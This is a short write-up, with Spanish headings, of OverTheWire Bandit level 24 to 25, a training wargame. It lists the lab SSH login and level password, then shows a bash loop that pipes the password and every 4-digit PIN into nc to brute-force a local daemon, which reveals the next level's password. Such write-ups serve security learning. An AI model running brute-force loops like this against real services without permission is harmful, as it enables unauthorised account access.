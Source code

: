 ## Objetivo
A daemon is listening on port 30002 and will give you the password for bandit25 if given the password for bandit24 and a secret numeric 4-digit pincode. There is no way to retrieve the pincode except by going through all of the 10000 combinations, called brute-forcing.  
You do not need to create new connections each time
## Datos de acceso al nivel
- **Host:** ssh bandit24@bandit.labs.overthewire.org -p 2220
- **Port:** 2220 -
- **Username:** bandit24
- **Password:** VAfGXJ1PBSsPSnvsjI8p759leLZ9GGar

## Solución
```bash
bandit24@bandit:~$ echo {0000..005}
0000 0001 0002 0003 0004 0005
bandit24@bandit:~$ for i in {0000..0005}; do echo $i; done
0000
0001
0002
0003
0004
0005
bandit24@bandit:~$ for i in {0000..0005}; do echo VAfGXJ1PBSsPSnvsjI8p759leLZ9GGar $i; done
VAfGXJ1PBSsPSnvsjI8p759leLZ9GGar 0000
VAfGXJ1PBSsPSnvsjI8p759leLZ9GGar 0001
VAfGXJ1PBSsPSnvsjI8p759leLZ9GGar 0002
VAfGXJ1PBSsPSnvsjI8p759leLZ9GGar 0003
VAfGXJ1PBSsPSnvsjI8p759leLZ9GGar 0004
VAfGXJ1PBSsPSnvsjI8p759leLZ9GGar 0005
bandit24@bandit:~$ for i in {0000..0005}; do echo VAfGXJ1PBSsPSnvsjI8p759leLZ9GGar $i; done | nc localhost 30002
I am the pincode checker for user bandit25. Please enter the password for user bandit24 and the secret pincode on a single line, separated by a space.
Wrong! Please enter the correct pincode. Try again.
Wrong! Please enter the correct pincode. Try again.
Wrong! Please enter the correct pincode. Try again.
Wrong! Please enter the correct pincode. Try again.
Wrong! Please enter the correct pincode. Try again.
Wrong! Please enter the correct pincode. Try again.
^C
bandit24@bandit:~$ for i in {0000..9999}; do echo VAfGXJ1PBSsPSnvsjI8p759leLZ9GGar $i; done | nc localhost 30002
I am the pincode checker for user bandit25. Please enter the password for user bandit24 and the secret pincode on a single line, separated by a space.
Wrong! Please enter the correct pincode. Try again.
Wrong! Please enter the correct pincode. Try again.
Wrong! Please enter the correct pincode. Try again.
.....
Wrong! Please enter the correct pincode. Try again.
Wrong! Please enter the correct pincode. Try again.
Correct!
The password of user bandit25 is p7TaowMYrmu23Ol8hiZh9UvD0O9hpx8d

Exiting.
bandit24@bandit:~$ for i in {0000..9999}; do echo VAfGXJ1PBSsPSnvsjI8p759leLZ9GGar $i; done | nc localhost 30002 | grep
-v Wrong
I am the pincode checker for user bandit25. Please enter the password for user bandit24 and the secret pincode on a single line, separated by a space.
Correct!
The password of user bandit25 is p7TaowMYrmu23Ol8hiZh9UvD0O9hpx8d

Exiting.
bandit24@bandit:~$
```
## Notas Adicionales

## Referencias

